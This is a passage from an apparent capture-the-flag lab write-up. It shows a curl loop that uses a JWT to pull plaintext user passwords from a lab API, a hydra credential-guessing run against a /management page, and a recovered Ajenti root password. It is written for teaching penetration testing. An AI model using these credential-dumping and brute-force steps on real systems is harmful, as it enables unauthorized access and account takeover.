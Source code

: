 ```

```

I can try each user and get their password:

```

root@kali# for user in admin derry yuri dory; do curl http://10.10.10.137:3000/users/${user} -H "authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MTU5OTk3LCJleHAiOjE1NTkyNDYzOTd9.a5kDgyES1Ot7qRzArdz2ehnvANv9yYdzZczG5EIISRs"; echo; done
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}

```

### Access /management

Armed with new usernames and passwords, I’ll give the various logins another show. I’ll drop the usernames and passwords into files, and run `hydra` to try them. For `/management`, it works:

```

root@kali# hydra -L users -P passwords -s 80 -f 10.10.10.137 http-get /management
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-05-29 16:26:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 35 login tries (l:7/p:5), ~3 tries per task
[DATA] attacking http-get://10.10.10.137:80/management
[80][http-get] host: 10.10.10.137   login: Derry   password: rZ86wwLvx7jUxtch
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-05-29 16:26:14

```

Now I can access `/management`:

![1559162341909](https://0xdfimages.gitlab.io/img/1559162341909.png)

`config.php` is the same file I already saw. `login.php` is a login page. `config.json` seems to be the ajenti config:

![1559162397524](https://0xdfimages.gitlab.io/img/1559162397524.png)

The config includes a password:

![1559162422133](https://0xdfimages.gitlab.io/img/1559162422133.png)

### Ajenti Root Shell

I can log into Ajenti on port 8000 using “root” / “﻿KpMasng6S5EtTy9Z”:
